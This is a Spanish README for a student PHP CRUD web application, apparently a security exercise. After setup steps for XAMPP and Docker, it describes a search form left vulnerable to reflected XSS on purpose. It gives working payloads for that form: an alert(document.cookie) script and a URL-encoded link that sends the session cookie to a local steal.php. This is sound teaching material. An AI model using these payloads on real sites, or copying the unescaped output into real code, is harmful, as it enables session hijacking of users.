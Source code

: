 CRUDPHP

CRUDPHP es una aplicación web en PHP que permite a los usuarios registrarse, iniciar sesión y gestionar productos en una base de datos. Ofrece funcionalidades de Crear, Leer, Actualizar y Eliminar productos.

Funcionalidades

    - Registro de usuario: Permite crear cuentas de usuario.
    - Inicio de sesión: Acceso con nombre de usuario y contraseña.
    - CRUD de productos:
        - Crear: Añadir nuevos productos.
        - Leer: Ver lista de productos.
        - Actualizar: Editar productos existentes.
        - Eliminar: Borrar productos de la base de datos.

Como usar la aplicacion

Opción 1: Usando un servidor web local XAAMP

- Crea la base de datos `crudphp` en MySQL
   - Accede a `http://localhost/phpmyadmin/` en tu navegador.
   - Crea una nueva base de datos llamada `crudphp`.

- Coloca los archivos del proyecto en el directorio adecuado
   - Si usas XAMPP, coloca los archivos en `C:/xampp/htdocs/CRUDPHP/`.

- Accede a la aplicación en el navegador
   - Registro de usuario: `http://localhost/FrontEnd/FormularioRegistro/FormularioRegistro.html`.
   - Inicio de sesión: `http://localhost/FrontEnd/FormularioLogin/FormularioLogin.html`.
   - Gestión de productos: `http://localhost/FrontEnd/Crud/ListadoDeProductos.php`.


Opcion 2 : Usando Docker

- Clona el repositorio del proyecto : git clone https://github.com/iesmartinezm/CRUDPHP.git

- Accede a la carpeta CRUDPHP

- Abre una CMD en esa ubicacion y escribe "docker-compose up --build", para la primera vez que quieras usar la aplicacion, a partir de entonces solo tendras que escribir "docker-compose up" para usarla.

- Accede a la aplicacion desde tu navegador usando localhost


APLICACION ACTUAL SIN AÑADIR FORMULARIO DE BUSQUEDA

Mi aplicacion actual no es vulnerable a Reflected XSS dado que los puntos de la aplicacion deonde se muestran datos ingresados por el usuario, como los formularios que ya estan implementados en la misma, utilizan la funcion htmlspecialchars() para verificar que las entradas se conviertan en sus equivalentes HTML, evitando asi que puedan ser interpretadas como codigo JavaScript. 


NUEVO FORMULARIO DE BUSQUEDA

Se ha agregado la funcionalidad de un formulario de busqueda dentro del listado de productos.
Este formulario si que es vulnerable a Reflected XSS dado que no utiliza htmlspecial chars para convertir las consultas a HTML, por lo que un atacante podria obtener la cookie de sesion si inserta un script dentro de la URL

Apartado 1 : Formulario con GET

Esta seria la URL que veria una persona que hace una busqueda normal dentro del formulario : 

http://localhost/FrontEnd/Crud/ListadoDeProductos.php?search=<termino_de_busqueda>

Esta seria una forma de obtener la cookie de sesion que podria usar un atacante malicioso: 

http://localhost/FrontEnd/Crud/ListadoDeProductos.php?search=<script>alert(document.cookie);</script>

- Si queremos que la cookie de sesion se almacene en un archivo para poder robarla, el usuario debera ejecutar este enlace

http://localhost/FrontEnd/Crud/ListadoDeProductos.php?search=%3Cscript%3Edocument.location%3D%27http%3A%2F%2Flocalhost%2FFrontEnd%2FCrud%2Fsteal.php%3Fcookie%3D%27%2BencodeURIComponent(document.cookie)%3B%3C%2Fscript%3E


Apartado 2 : Formulario con POST

Si introducimos en el formulario de busqueda con metodo POST el siguiente script

<script>alert(document.cookie);</script>

Nos mostrar una alerta con la cookie de sesion del usuario logueado


